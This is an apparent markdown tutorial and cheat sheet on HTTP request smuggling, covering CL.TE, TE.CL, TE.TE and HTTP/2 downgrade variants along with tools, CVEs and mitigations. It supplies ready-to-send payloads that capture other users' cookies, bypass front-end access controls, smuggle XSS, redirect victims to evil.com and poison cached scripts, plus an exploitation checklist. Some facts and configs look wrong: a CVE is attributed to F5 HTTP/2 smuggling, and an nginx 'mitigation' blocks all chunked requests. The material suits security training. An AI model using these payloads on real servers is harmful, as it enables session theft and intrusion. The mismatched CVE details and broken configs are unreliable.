



# HTTP Request Smuggling

> **HTTP Request Smuggling exploits disagreements between frontend and backend servers about where one HTTP request ends and the next begins — letting an attacker "smuggle" a hidden request inside a legitimate one.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine two security guards checking letters at a checkpoint. The first guard (the front-end) reads the letter and decides how long it is based on the **envelope size**. The second guard (the back-end) reads the same letter but decides how long it is based on a **page count written inside**. Because they measure differently, an attacker can craft a letter that the first guard thinks is one message — but the second guard interprets as **two separate messages**, with the second one sneaking through unchecked.

That hidden second message is the **smuggled request**.

```
 [Attacker]
     |
     |  POST /  (looks like 1 request to the front-end)
     ▼
 [Front-End Proxy]  ← reads Content-Length: 13
     |
     |  Forwards body to back-end as-is
     ▼
 [Back-End Server]  ← reads Transfer-Encoding: chunked
     |              ← sees TWO requests instead of one!
     |
     ├──► Request 1: legitimate
     └──► Request 2: SMUGGLED (attacker's hidden payload)
```

This works because HTTP/1.1 allows **two different ways** to specify the length of a request body, and when a proxy chain disagrees on which one to trust, chaos ensues.

---

## 🏗️ How It Works (Technical Deep Dive)

### HTTP/1.1 Body Framing Methods

HTTP/1.1 defines two mechanisms for specifying request body length:

| Header | Description |
|---|---|
| `Content-Length` | Declares the exact byte count of the body |
| `Transfer-Encoding: chunked` | Body is sent in size-prefixed chunks; terminates with `0\r\n\r\n` |

**The RFC says**: if both headers are present, `Transfer-Encoding` takes precedence and `Content-Length` must be ignored. But real-world implementations don't always follow the spec.

### Why Disagreement Happens

Modern web applications commonly sit behind a **reverse proxy** (nginx, HAProxy, AWS ALB, Cloudflare) that forwards requests to a backend (Apache, Node.js, Tomcat). The two tiers are often:

- Written by different teams / vendors
- Running different HTTP library versions
- Configured differently

When they disagree on how to parse a request boundary, the attacker can weaponize that gap.

```
Attacker sends:          Front-End sees:         Back-End sees:
─────────────────        ────────────────        ─────────────────
POST / HTTP/1.1          One full request        Two requests:
Content-Length: 13  →    body = "0\n\nSMUGGLED"  [1] body = "0\n\n"
Transfer-Encoding:                               [2] "SMUGGLED" prepended
  chunked                                             to next victim's req
```

---

## 📊 Attack Flow Diagram



---

## ⚙️ The Three Classic Attack Types

### 1. CL.TE — Front-End Uses Content-Length, Back-End Uses Transfer-Encoding

The front-end reads the `Content-Length` header and forwards the entire body. The back-end reads `Transfer-Encoding: chunked`, sees the `0` chunk terminator, treats the request as done, and leaves `SMUGGLED` in its buffer — which gets prepended to the **next** incoming request.

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

**What happens step by step:**

1. Front-end reads `Content-Length: 13` → forwards 13 bytes: `0\r\n\r\nSMUGGLED`
2. Back-end reads `Transfer-Encoding: chunked` → chunk size `0` = end of request
3. `SMUGGLED` remains in the back-end's TCP buffer
4. Next victim's request arrives → back-end prepends `SMUGGLED` to it

**Detecting CL.TE (timing attack):**

```http
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

If vulnerable: the back-end waits for the next chunk after `X`, causing a **time delay** of ~10 seconds.

---

### 2. TE.CL — Front-End Uses Transfer-Encoding, Back-End Uses Content-Length

The front-end reads the chunked body and strips the framing. The back-end reads `Content-Length: 3` and only consumes 3 bytes (`8\r\n`), leaving `SMUGGLED\r\n0\r\n\r\n` in its buffer.

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

> ⚠️ **Note:** There must be a trailing `\r\n\r\n` after the final `0` chunk. In Burp Suite, disable "Update Content-Length" and use the HTTP Request Smuggler extension.

**What happens step by step:**

1. Front-end reads `Transfer-Encoding: chunked` → chunk `8` bytes = `SMUGGLED`, then `0` = end
2. Front-end forwards the entire body as-is to the back-end
3. Back-end reads `Content-Length: 3` → consumes only `8\r\n` (3 bytes)
4. `SMUGGLED\r\n0\r\n\r\n` stays in the buffer, poisoning next request

**Detecting TE.CL (timing attack):**

```http
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

If the back-end hangs waiting for more data to satisfy its `Content-Length`, you see a delay.

---

### 3. TE.TE — Both Sides Support Transfer-Encoding, But One Can Be Confused

Both servers nominally support `Transfer-Encoding`, but one of them can be tricked into **ignoring** it via obfuscation — falling back to `Content-Length`.

**Obfuscation techniques:**

```http
# Technique 1: Non-standard chunk encoding name
Transfer-Encoding: xchunked

# Technique 2: Whitespace before the colon
Transfer-Encoding : chunked

# Technique 3: Extra whitespace in value
Transfer-Encoding: chunked

# Technique 4: Tab character (0x09) instead of space
Transfer-Encoding:	chunked

# Technique 5: Mixed case
Transfer-Encoding: Chunked

# Technique 6: Double header (one valid, one invalid)
Transfer-Encoding: chunked
Transfer-Encoding: x

# Technique 7: Newline injection into header value
Transfer-Encoding: chunked\r\nTransfer-Encoding: x

# Technique 8: Null byte injection
Transfer-Encoding: chunked\x00

# Technique 9: Inside another header
X-Custom-Header: foo\r\nTransfer-Encoding: chunked
```

**Example TE.TE exploit (front-end ignores obfuscated TE, uses CL; back-end uses first valid TE):**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked
Transfer-Encoding: x

0

SMUGGLED
```

---

## 🌐 HTTP/2 Downgrade Smuggling (H2.CL and H2.TE)

Modern stacks often accept HTTP/2 from clients but translate ("downgrade") to HTTP/1.1 when communicating with the backend. This introduces new smuggling surfaces because HTTP/2 uses **binary framing** (no CL/TE ambiguity) but the downgraded HTTP/1.1 reintroduces it.



### H2.CL Attack

An attacker sends an HTTP/2 request with a `content-length` header whose value doesn't match the actual frame length. The front-end passes it through; the back-end (HTTP/1.1) uses the provided `Content-Length`.

```
:method POST
:path /
:authority vulnerable.com
content-type application/x-www-form-urlencoded
content-length 0

GPOST / HTTP/1.1
Host: vulnerable.com
Content-Length: 5

x=1
```

### H2.TE Attack

Inject a `transfer-encoding: chunked` header into an HTTP/2 request. HTTP/2 spec forbids TE headers, but front-ends often pass them through during downgrade:

```
:method POST
:path /
:authority vulnerable.com
content-type application/x-www-form-urlencoded
transfer-encoding chunked

0

GPOST / HTTP/1.1
Host: vulnerable.com
```

### HTTP/2 Request Tunneling

Even without connection reuse, HTTP/2 allows **request tunneling** — embedding a full HTTP/1.1 request inside an HTTP/2 request's body. This can bypass front-end controls since the front-end never sees the inner request:

```
:method POST
:path /
:authority internal-api.vulnerable.com
content-type application/x-www-form-urlencoded
content-length 67

POST /admin/deleteUser HTTP/1.1
Host: internal-api.vulnerable.com
Content-Length: 10

username=a
```

---

## 🔍 Detection Techniques

### Method 1: Timing-Based Detection

Send a request that will cause the back-end to hang if it's vulnerable. A delay of ~10 seconds confirms the vulnerability.

**CL.TE timing probe:**
```http
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
*Expect: 10+ second delay if TE.CL or CL.TE variant exists.*

**TE.CL timing probe:**
```http
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

### Method 2: Differential Response Detection

Send two requests in rapid succession. If the second request receives a response meant for a different endpoint, the server is vulnerable.

**Step 1 — Smuggle a partial request:**
```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404notfoundpage HTTP/1.1
X-Ignore: x
```

**Step 2 — Send a normal request immediately after:**
```http
GET / HTTP/1.1
Host: vulnerable.com
```

*If the normal request receives a 404, the smuggled partial request was prepended to it.*

### Method 3: Burp Suite HTTP Request Smuggler Extension

The [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler) Burp extension automates detection:

1. Install from BApp Store: **Extender → BApp Store → "HTTP Request Smuggler"**
2. Right-click a request in Burp → **Extensions → HTTP Request Smuggler → Smuggle Probe**
3. The extension sends all variant payloads and reports timing/differential anomalies
4. Use **"Smuggle Attack"** option to confirm and exploit

```
# Alternatively use the standalone smuggler tool:
java -jar smuggler.jar -u https://vulnerable.com/
```

---

## 💥 Exploitation Techniques

### Exploit 1: Bypass Front-End Security Controls (WAF/Auth)

Front-end enforces access control by checking headers or URL paths. Smuggle a request directly to the back-end, bypassing front-end checks.

**Scenario:** Front-end blocks access to `/admin` for non-admin IPs.

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

The front-end only validates the outer `POST /` request. The back-end receives and processes `GET /admin` as a legitimate follow-up.

**Bypassing X-Forwarded-For IP allowlisting:**
```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?user=carlos HTTP/1.1
Host: vulnerable.com
X-Forwarded-For: 127.0.0.1
X-Admin-Token: smuggled
Content-Length: 10

x=
```

---

### Exploit 2: Capturing Other Users' Requests (Cookie/Token Theft)

Smuggle a partial request that forces the next victim's full request to be appended to it and sent to an attacker-controlled endpoint (or stored in a comment/log).



**Payload to capture next user's request into a comment/profile field:**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 255
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 900

csrf=validcsrftoken&postId=5&name=attacker&email=attacker@evil.com&comment=
```

When the next user's request arrives, their `Cookie`, `Authorization`, and other headers get appended as part of the `comment=` value, storing them in the blog post's comments. The attacker then reads the comment to extract tokens.

---

### Exploit 3: Reflected XSS via Smuggling

Some XSS payloads that are blocked by the WAF (front-end) can be smuggled past it because the WAF only inspects the outer request.

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /search?q="><script>alert(document.cookie)</script> HTTP/1.1
Host: vulnerable.com
Content-Length: 5

x=1
```

The front-end WAF sees `POST /` — no XSS. The back-end processes `GET /search?q=...` with the XSS payload unfiltered. If another user's request gets merged, they receive the XSS response.

---

### Exploit 4: Redirecting Responses to Other Users

Smuggle a request that will cause the back-end to return a **malicious redirect** or custom response to the next unsuspecting user:

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /redirect?url=https://evil.com HTTP/1.1
X-Ignore: X
```

The next user who sends any request receives a redirect to `evil.com` — useful for phishing or delivering malware.

---

### Exploit 5: Web Cache Poisoning via Smuggling

Combine request smuggling with cache poisoning to deliver a malicious cached response to all users:

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Transfer-Encoding: chunked

0

GET /static/include.js HTTP/1.1
X-Forwarded-Host: evil.com
```

If `GET /static/include.js` is cacheable and the injected `X-Forwarded-Host` changes the response body (e.g., script `src` attributes), every user fetching the cached JS gets attacker-controlled code.

---

## 🛠️ Tools & Methodology

### Burp Suite (Primary Tool)

1. **Intercept** the target request in Burp Proxy
2. Send to **Repeater** (`Ctrl+R`)
3. In Repeater, **disable** "Update Content-Length" (uncheck in the header)
4. **Disable HTTP/2** for initial testing: Project Options → HTTP → HTTP/2 → disable
5. Craft your smuggling payload manually
6. Use the **HTTP Request Smuggler** BApp extension for automated scanning

```bash
# BApp install command (if using headless Burp):
java -jar burpsuite_pro.jar --project-file=project.burp
# Then: Extender → BApp Store → search "HTTP Request Smuggler"
```

### turbo-intruder

For timing-sensitive attacks, use Burp's turbo-intruder to send requests with precise timing:

```python
# turbo-intruder script for CL.TE detection
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False)
    
    # Smuggle request
    engine.queue(target.req, gate='race1')
    # Follow-up request (should arrive before back-end times out)
    engine.queue(target.req, gate='race1')
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```

### smuggler.py (standalone)

```bash
# Clone and run
git clone https://github.com/defparam/smuggler.git
cd smuggler
python3 smuggler.py -u "https://vulnerable.com/" -m POST

# Test all variants
python3 smuggler.py -u "https://vulnerable.com/" --all

# Verbose output
python3 smuggler.py -u "https://vulnerable.com/" -v 2

# Custom headers
python3 smuggler.py -u "https://vulnerable.com/" -H "Cookie: session=abc"
```

### h2csmuggler (HTTP/2 specific)

```bash
git clone https://github.com/BishopFox/h2csmuggler.git
cd h2csmuggler

# Test for H2C upgrade vulnerability
python3 h2csmuggler.py -x https://vulnerable.com/ --test

# Smuggle a request
python3 h2csmuggler.py -x https://vulnerable.com/ \
  -H "Transfer-Encoding: chunked" \
  https://vulnerable.com/admin
```

### curl (manual testing)

```bash
# Send raw CL.TE smuggling request (disable curl's internal chunking)
curl -s -k --http1.1 \
  -X POST https://vulnerable.com/ \
  -H "Content-Length: 13" \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data $'0\r\n\r\nSMUGGLED'

# Use --data-binary to avoid automatic encoding
curl -s -k --http1.1 \
  -X POST https://vulnerable.com/ \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Length: 3" \
  --data-binary $'8\r\nSMUGGLED\r\n0\r\n\r\n'
```

---

## 📋 Step-by-Step Exploitation Checklist

```
[ ] 1. Map the infrastructure
        - Identify front-end proxy (nginx, HAProxy, CDN)
        - Identify back-end server (Apache, Node, Tomcat)
        - Note if HTTP/2 is supported

[ ] 2. Run automated detection
        - Use HTTP Request Smuggler BApp
        - Run smuggler.py against target

[ ] 3. Confirm with timing attack
        - CL.TE probe: expect 10s delay
        - TE.CL probe: expect 10s delay

[ ] 4. Confirm with differential response
        - Two-request probe
        - Look for unexpected 404 or response change

[ ] 5. Identify the vulnerability type (CL.TE / TE.CL / TE.TE)

[ ] 6. Attempt exploits in order:
        a. Front-end bypass (access /admin, /internal)
        b. Request capture (steal cookies from next user)
        c. XSS via smuggling (bypass WAF)
        d. Response redirect (phishing)

[ ] 7. Document with exact HTTP payloads
[ ] 8. Report impact + CVSS score
```

---

## 🌍 Real CVEs

### CVE-2019-18277 — HAProxy HTTP Request Smuggling

- **Affected:** HAProxy 1.x < 1.9.13 / 2.x < 2.0.6
- **Type:** CL.TE smuggling
- **Impact:** HAProxy forwards both `Content-Length` and `Transfer-Encoding` headers to the backend, allowing an attacker to smuggle requests past HAProxy's ACLs and security rules.
- **CVSS:** 7.5 (High)

```http
# Proof of concept
POST / HTTP/1.1
Host: haproxy-vulnerable.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

**Fix:** Upgrade to HAProxy >= 1.9.13 or >= 2.0.6. HAProxy now rejects requests with both CL and TE headers.

```bash
# Check HAProxy version
haproxy -v

# Patch in haproxy.cfg — add to frontend:
option http-server-close
option forwardfor
```

---

### CVE-2020-11724 — nginx HTTP Request Smuggling

- **Affected:** nginx acting as reverse proxy to certain back-ends
- **Type:** TE.CL variant when nginx is used with certain upstream configurations
- **Impact:** nginx incorrectly handles chunked requests, allowing backend servers to be poisoned
- **CVSS:** 7.5 (High)

```http
# Exploit TE.CL via nginx proxy
POST / HTTP/1.1
Host: nginx-proxy.com
Transfer-Encoding: chunked
Content-Length: 3

8
SMUGGLED
0


```

**Fix:** Upgrade nginx; add `proxy_http_version 1.1` and configure proper chunked handling:

```nginx
# nginx.conf mitigation
server {
    proxy_http_version 1.1;
    proxy_set_header Connection "";
    # Reject requests with both CL and TE
    if ($http_transfer_encoding ~* "chunked") {
        return 400;
    }
}
```

---

### CVE-2021-27853 — Layer 7 Network Security Smuggling (F5 BIG-IP)

- **Affected:** F5 BIG-IP 14.x, 15.x, 16.x
- **Type:** HTTP/2 to HTTP/1.1 downgrade smuggling
- **Impact:** Allows bypassing security policies by embedding malicious content in HTTP/2 streams

---

### CVE-2022-22536 — SAP Internet Communication Manager (ICM) Smuggling

- **Affected:** SAP Web Dispatcher, ICM, SAP NetWeaver
- **Type:** HTTP request smuggling leading to session hijacking
- **CVSS:** 10.0 (Critical)
- **Impact:** Full account takeover; attackers could read/modify other users' SAP sessions

---

## 🏆 Real Bug Bounty Reports

### HackerOne Report #737140 — New Relic ($3,000)
- **Finding:** CL.TE smuggling on `collector.newrelic.com`
- **Impact:** Front-end security headers were bypassable; attacker could reach internal API endpoints
- **Technique:** `Content-Length` / `Transfer-Encoding` header disagreement between AWS ALB and Unicorn backend

### HackerOne Report #955170 — US DoD ($3,000 + Hall of Fame)
- **Finding:** TE.CL smuggling on a DoD web property
- **Impact:** Could capture session tokens from other users' requests
- **Technique:** HAProxy + Apache disagreement on chunked encoding

### HackerOne Report #1063349 — Nginx + Node.js
- **Finding:** HTTP/2 downgrade smuggling
- **Impact:** WAF bypass allowing SQL injection payloads through to the backend

---

## 🛡️ Mitigation

### Server Configuration

```nginx
# nginx — disable connection reuse, normalize headers
upstream backend {
    keepalive 0;  # Disable keep-alive to prevent request queue poisoning
}
server {
    proxy_http_version 1.1;
    proxy_set_header Connection "";
    # Reject ambiguous requests
    map $http_transfer_encoding $bad_te {
        ~*chunked   1;
        default     0;
    }
}
```

```apache
# Apache — normalize all requests at the frontend
RequestHeader unset Transfer-Encoding
# Use mod_security to reject dual-header requests
SecRule REQUEST_HEADERS:Transfer-Encoding "@streq chunked" \
  "id:1001,phase:1,deny,status:400,msg:'CL+TE header conflict'"
```

### HAProxy

```
frontend http-in
    # Reject requests with both CL and TE
    http-request deny if { req.hdr_cnt(content-length) gt 0 } { req.hdr_cnt(transfer-encoding) gt 0 }
    option http-buffer-request
```

### Application-Level Mitigations

| Mitigation | Description |
|---|---|
| Disable backend connection reuse | Each request gets a fresh backend connection |
| Normalize TE/CL before forwarding | Strip one of the conflicting headers at the front-end |
| Use HTTP/2 end-to-end | Eliminates CL/TE ambiguity entirely |
| Apply strict request size limits | Reduces window for smuggling payloads |
| Deploy a WAF with smuggling signatures | Detect known obfuscation patterns |

### Developer Checklist

```
[ ] Ensure proxy and backend use same HTTP version
[ ] Configure proxy to reject dual CL+TE headers
[ ] Enable request normalization at the WAF layer
[ ] Test with HTTP Request Smuggler on every deployment
[ ] Pin TLS/HTTP/2 end-to-end when possible
[ ] Monitor for unexpected 400/405 spikes (sign of active exploitation)
```

---

## 🔬 Lab Practice

| Platform | Lab |
|---|---|
| PortSwigger Web Academy | [HTTP request smuggling labs](https://portswigger.net/web-security/request-smuggling) |
| HackTheBox | Various machines with smuggling chains |
| DVWA + nginx | Self-hosted lab |

```bash
# Spin up a local vulnerable environment
docker run -d -p 8080:80 \
  -e BACKEND=http://backend:8000 \
  vulnerables/web-dvwa

# Install ngrok for external testing
ngrok http 8080
```

---

## 📚 References

- [PortSwigger: HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling)
- [PortSwigger Research: HTTP/2: The Sequel is Always Worse](https://portswigger.net/research/http2)
- [James Kettle — DEF CON 27: HTTP Desync Attacks](https://www.youtube.com/watch?v=w-eJM2Pc0KI)
- [RFC 7230 — Hypertext Transfer Protocol (HTTP/1.1): Message Syntax](https://tools.ietf.org/html/rfc7230)
- [smuggler.py by defparam](https://github.com/defparam/smuggler)
- [h2csmuggler by BishopFox](https://github.com/BishopFox/h2csmuggler)
- [HTTP Request Smuggler BApp](https://github.com/PortSwigger/http-request-smuggler)
- [NVD CVE-2019-18277](https://nvd.nist.gov/vuln/detail/CVE-2019-18277)
- [NVD CVE-2020-11724](https://nvd.nist.gov/vuln/detail/CVE-2020-11724)
- [NVD CVE-2022-22536](https://nvd.nist.gov/vuln/detail/CVE-2022-22536)
- [HackerOne Report #737140](https://hackerone.com/reports/737140)
